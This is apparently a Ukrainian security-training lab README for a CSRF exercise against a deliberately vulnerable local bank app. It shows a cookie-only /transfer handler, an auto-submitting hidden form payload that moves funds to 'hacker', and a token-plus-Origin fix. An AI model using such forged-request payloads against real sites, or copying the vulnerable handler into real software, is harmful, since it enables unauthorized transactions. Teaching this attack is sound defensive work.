

[🏠 Головна](../README.md) · [⬅ X04 Path Traversal](../X04_PathTraversal/README.md) · [X06 Open Redirect ➡](../X06_OpenRedirect/README.md)

# 🏦 X05: Cross-Site Request Forgery (CSRF)

> **OWASP A01:2025 — Broken Access Control** · порти **3015** (банк) та **4015** (атакувальник) · CWE-352



## 📋 Зміст

- [Мета](#-мета)
- [Запуск](#-запуск)
- [Вразливість](#-вразливість)
- [Експлуатація](#-експлуатація)
- [Чому SameSite=Lax не врятував](#-чому-samesitelax-не-врятував)
- [Виправлення](#-виправлення)
- [Завдання](#-завдання)
- [Джерела](#-джерела)

---

## 🎯 Мета

Зрозуміти, як браузер автоматично додає cookie до запитів з чужих сторінок, проексплуатувати переказ коштів без відома жертви та захиститися **CSRF-токеном** і перевіркою **Origin**.

## 🚀 Запуск

```bash
cd X05_CSRF
npm install
npm start
```

| Сервіс | URL | Облікові дані |
|---|---|---|
| Інтернет-банк (жертва) | http://127.0.0.1:3015 | `alice` / `alice123` |
| Сайт атакувальника | http://127.0.0.1:4015 | — |

> Використовуй саме `127.0.0.1`, а не `localhost` — для браузера це різні сайти.

## 🚫 Вразливість

```javascript
app.all('/transfer', requireLogin, (req, res) => {   // GET і POST!
    const { to, amount } = { ...req.query, ...req.body };
    doTransfer(req.session.username, to, amount);      // лише cookie, без токена
});
```

| Ендпоінт | Статус | Проблема |
|---|---|---|
| `GET/POST /transfer` | 🔴 | зміна стану тільки за cookie; GET працює через `` |
| `POST /transfer-secure` | 🟢 | synchronizer token (`X-CSRF-Token`) + перевірка `Origin` |

## 💣 Експлуатація

1. Увійди в банк як `alice` (баланс 10 000).
2. У тій самій вкладці/браузері відкрий http://127.0.0.1:4015 («Ви виграли iPhone!»).
3. Сторінка атакувальника непомітно виконує:

```html
<!-- GET-атака -->


<!-- POST-атака з автосабмітом у прихований iframe -->
<form action="http://127.0.0.1:3015/transfer" method="POST" target="sink">
    <input name="to" value="hacker"><input name="amount" value="1000">
</form>
<script>document.forms[0].submit()</script>
```

4. Повернись у банк і онови сторінку: баланс **8 500**. В історії два перекази `[vulnerable GET]` і `[vulnerable POST]`, а запит на `/transfer-secure` відхилено.

## 🍪 Чому SameSite=Lax не врятував

Cookie `sid` має `SameSite=Lax`, але:

- **site ≠ origin.** `127.0.0.1:4015` і `127.0.0.1:3015` — різні origin, але **один site** (порт не враховується). Те саме з піддоменами: `evil.example.com` і `bank.example.com` — same-site.
- `Lax` завжди пропускає **top-level GET-навігацію**, тому GET-ендпоінти зі зміною стану вразливі навіть cross-site.

SameSite — це додатковий рівень захисту, а не заміна CSRF-токену.

## ✅ Виправлення

```javascript
app.post('/transfer-secure', requireLogin, (req, res) => {
    // 1. Origin — тільки свій
    if (req.headers.origin && req.headers.origin !== 'http://127.0.0.1:3015')
        return res.status(403).json({ error: 'Bad Origin' });

    // 2. Synchronizer token, прив’язаний до сесії (порівняння за сталий час)
    const token = req.headers['x-csrf-token'];
    if (!token || !crypto.timingSafeEqual(Buffer.from(token), Buffer.from(req.session.csrfToken)))
        return res.status(403).json({ error: 'Invalid CSRF token' });
    ...
});
```

Також: ніколи не змінюй стан через `GET`; `SameSite=Strict` для критичних cookie; повторна автентифікація для чутливих дій.

## 🧪 Завдання

1. Проведи атаку і поясни, чому браузер надіслав cookie.
2. Зміни сторінку атакувальника, щоб вона переказала **весь** баланс.
3. Спробуй атакувати `/transfer-secure`: чому не вдається прочитати токен з чужого origin?
4. Відкрий атакувальника як `http://localhost:4015` і поясни зміну поведінки.

## 📚 Джерела

- [OWASP Top 10:2025 — A01 Broken Access Control](https://top10.owasp.org/2025/A01_2025-Broken_Access_Control/)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [web.dev — SameSite cookies explained](https://web.dev/articles/samesite-cookies-explained)

---

[⬆ До змісту](#-зміст) · [🏠 Головна](../README.md)
